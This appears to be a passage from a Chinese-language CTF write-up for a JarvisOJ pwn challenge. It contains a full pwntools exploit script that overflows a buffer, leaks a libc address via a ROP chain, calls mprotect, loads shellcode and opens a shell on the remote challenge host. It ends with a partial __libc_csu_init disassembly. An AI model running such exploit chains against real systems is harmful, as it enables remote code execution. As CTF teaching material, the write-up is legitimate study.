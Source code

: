 自己整理一下简单的可以理解的,大体差不多。

```python
#coding=utf-8
from pwn import *
#conn=process('./pwn')
context.binary = './pwn'
conn=remote("pwn2.jarvisoj.com", "9884")
e=ELF('./pwn')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('./libc-2.19.so')
vul_addr=e.symbols["vulnerable_function"]
write_plt=e.symbols['write']
write_got=e.got['write']
read_plt=e.symbols['read']
pop_rdi=0x4006b3 #pop rdi;ret
pop_rsi=0x4006b1 #pop rsi;pop r15;ret
##############################################
#get mprotect_addr
#edx=0x200 is not serious
payload1='a'*(0x80+0x08)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(write_got)+p64(8)+p64(write_plt)+p64(vul_addr)
conn.recv()
conn.send(payload1)
pause()
write_addr=u64(conn.recv(8))       #leak write_addr
print write_addr
#libc.address = u64(io.recvuntil("\x7f")[-6: ] + '\0\0') - libc.sym['write']
libc_write=libc.symbols['write']
libc_mprotect=libc.symbols['mprotect']
mprotect_addr=libc_mprotect-libc_write+write_addr       #offset mprotect
print hex(libc.address)
print hex(-libc_write+write_addr)
prdx=-libc_write+write_addr+0x1b8e
prsi=-libc_write+write_addr+0x24885
#payload2 = flat(cyclic(0x80 + 8), pop_rdi, 0x00600000, prsi, 0x1000, prdx, 7, mprotect_addr, e.sym['_start'])
payload2='a'*(0x80+0x08)+p64(pop_rdi)+p64(0x600000)+p64(prsi)+p64(0x1000)+p64(prdx)+p64(7)+p64(mprotect_addr)+p64(vul_addr)
conn.sendafter("Input:\n", payload2)
pause()
payload3='a'*(0x80+0x08)+p64(pop_rdi)+p64(0)+p64(prsi)+p64(e.bss()+0x500)+p64(prdx)+p64(0x100)+p64(e.plt['read'])+p64(e.bss()+0x500)
conn.sendafter("Input:\n", payload3)
conn.send(asm(shellcraft.sh()))
conn.interactive()
```



2.我们可以利用x64下的__libc_csu_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般的程序都会调用libc函数，所以我们可以利用这个函数，先看一下函数 

```shell
.text:0000000000400650 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:0000000000400650                 push    r15
.text:0000000000400652                 mov     r15d, edi
.text:0000000000400655                 push    r14
.text:0000000000400657                 mov     r14, rsi
.text:000000000040065A                 push    r13
.text:000000000040065C                 mov     r13, rdx
.text:000000000040065F                 push    r12
.text:0000000000400661                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400668                 push    rbp
.text:0000000000400669                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000400670                 push    rbx
.text:0000000000400671                 sub     rbp, r12
```